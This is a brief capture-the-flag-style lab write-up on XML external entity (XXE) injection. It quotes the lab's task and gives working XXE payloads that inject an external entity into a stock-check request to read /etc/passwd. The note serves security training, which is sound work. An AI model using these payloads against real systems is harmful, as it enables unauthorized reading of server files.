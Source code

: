 Title: Exploiting XXE using external entities to retrieve files
Desc:  This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 



Example of XXE attack:
`<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>`

All I need to do is to change request for stock number to have external entity.
![image](https://github.com/user-attachments/assets/7f99b71f-c4ca-4276-b065-abe44237a06f)


`<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>`

Request before change:
![image](https://github.com/user-attachments/assets/9c048d3b-7ca6-4103-a40e-2b00ac6e9b7c)


